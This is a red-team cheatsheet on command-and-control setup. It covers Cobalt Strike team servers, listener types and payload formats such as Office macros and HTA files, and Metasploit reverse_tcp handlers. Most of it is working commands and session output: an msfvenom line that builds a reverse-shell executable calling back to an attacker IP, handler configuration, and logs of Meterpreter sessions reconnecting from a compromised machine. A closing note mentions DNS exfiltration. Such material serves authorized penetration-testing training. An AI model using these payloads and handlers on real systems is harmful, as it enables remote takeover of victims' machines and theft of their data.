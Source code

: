 # Red team

> Lots of things in this cheatsheet are taken from the great [Red Team Ops](https://training.zeropointsecurity.co.uk/courses/red-team-ops) course from ZeroPointZecurity

## C2

## Staged vs stageless handler

[Great article about the subject](https://buffered.io/posts/staged-vs-stageless-handlers/)

Staged :
- Minimal size pyaload
- Dumb stager
- Easily detected by an IDS

Stageless:
- Larger payload
- Fully encrypted communication
- Less likely to get caught by an IDS

### Cobalt strike

Run the team server

`sudo ./teamserver <server_IP> <password> <malleable_profile_file>`

Run cobalt strike client

Create a listener:
- Egress listener: egress listener is one that allows Beacon to communicate outside of the target network to our team server. Beacon will encapsulate C2 traffic over HTTP/S or DNS.
- Peer-to-peer: P2P listeners differ from egress listeners because they don't communicate with the team server directly.  Instead, P2P listeners are designed to chain multiple Beacons together in parent/child relationships. P2P listeners can either use SMB or raw TCP.

Create a payload:
- HTML application: a .hta file uses embedded VBScript to run the payload.  Only generates payloads for egress listeners and is limited to x86.
- MS Office Macro: a piece of VBA that can be dropped into a macro-enabled MS Word or Excel document.  Only generates payloads for egress listeners but is compatible with both x86 and x64 Office.
- Stager Payload Generator: a payload stager in a variety of languages including C, C#, PowerShell, Python, and VBA. Only generates payloads for egress listeners, but supports x86 and x64.
- Stageless Payload Generator: As above, but generates stageless payloads rather than stagers. No PowerShell, but has the added option of specifying an exit function (process or thread).  It can also generate payloads for P2P listeners.
- Windows Stager Payload: a pre-compiled stager as an EXE, Service EXE or DLL
- Windows Stageless Payload: a pre-compiled stageless payload as an EXE, Service EXE, DLL, shellcode, as well as PowerShell.  This is also the only means of generating payloads for P2P listeners.
- Windows Stageless Generate All Payloads: every stageless payload variant, for every listener, in x86 and x64.

### Metasploit

#### TCP Payloads

**TCP connection workaround**

Create a stageless listener:
```
msf exploit(handler) > set payload windows/meterpreter_reverse_tcp
payload => windows/meterpreter_reverse_tcp
msf exploit(handler) > set LHOST <attacker's IP>
LHOST => <attacker's IP>
msf exploit(handler) > set LPORT <backup port>
LPORT => <backup port>
msf exploit(handler) > set ExitOnSession false
ExitOnSession => false
msf exploit(handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter_reverse_tcp):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   EXITFUNC    process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   EXTENSIONS                   no        Comma-separate list of extensions to load
   EXTINIT                      no        Initialization strings for extensions
   LHOST       <attacker's IP>       yes       The listen address
   LPORT       <backup port>             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] [2016.10.05-12:25:23] Started reverse TCP handler on <attacker IP>:<backup port>
msf exploit(handler) > [*] [2016.10.05-12:25:23] Starting the payload handler...
```

Create a matching payload for this listener:

```
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=<attacker IP> LPORT=<backup port> -f exe -o /tmp/stageless.exe
```

Create a staged listener with `LPORT` set to `<backup port>` and `ReverseListenerBindPort` to something different.

```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set ReverseListenerBindPort <initial port>
ReverseListenerBindPort => <initial port>
msf exploit(handler) > options

Module options (exploit/multi/handler):

Name  Current Setting  Required  Description
----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST     <attacker IP>    yes       The listen address
LPORT     <backup port>    yes       The listen port


Exploit target:

Id  Name
--  ----
0   Wildcard Target


msf exploit(handler) > run -j
[*] Exploit running as background job.

[*] [2016.10.05-12:29:48] Started reverse TCP handler on <attacker IP>:<initial port>
msf exploit(handler) > [*] [2016.10.05-12:29:48] Starting the payload handler...
```

Create a second payload for this listener, using `<initial port>` for `LPORT`.

When the staged payload runs, it will connect to Metasploit on port `initial port`. If the session needs to reconnect for any reason, Meterpreter will be responsible for that reconnection. Therefore, the configuration block will be referenced instead of the stager configuration, and it will use port `<backup port>` where the stageless listener is active. Here’s an example:

```
msf exploit(handler) >
[*] [2016.10.05-12:34:27] Sending stage (957999 bytes) to <compromised machine's IP>
[*] Meterpreter session 1 opened (<attacker's IP>:<initial port> -> <compromised machine's IP>:<compromised machine's port>) at 2016-10-05 12:34:29 +1000
msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  1   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  <attacker IP>:<initial port -> <compromised machine's IP>:<compromised machine's port> (<compromised machine's IP>)
meterpreter > sleep 5
[*] Telling the target instance to sleep for 5 seconds ...
[+] Target instance has gone to sleep, terminating current session.

[*] <compromised machine's IP> - Meterpreter session 1 closed.  Reason: User exit
msf exploit(handler) > [*] Meterpreter session 2 opened (<attacker's IP>:<backup port> -> <compromised machine's IP>:<compromised machine's port>) at 2016-10-05 12:35:55 +1000

msf exploit(handler) > sessions

Active sessions
===============

  Id  Type                   Information                           Connection
  --  ----                   -----------                           ----------
  2   meterpreter x86/win32  WIN-7CH5RT177BA\oj @ WIN-7CH5RT177BA  <attacker's IP>:<backup port> -> <compromised machine's IP>:<compromised machine's port> (<compromised machine's IP>)
```

#### HTPP/S payloads

For HTTP/S payloads they will automatically reconnect to the listener after a lost of connection wheither they are staged or not.

## DNS

You may want to use [PowerDNS](https://github.com/PowerDNS/pdns) to register a domain name. PowerDNS might also be usefull for dns exfiltration.

> To get a web interface for PowerDNS you can use [PowerDNS-Admin](https://github.com/PowerDNS-Admin/PowerDNS-Admin)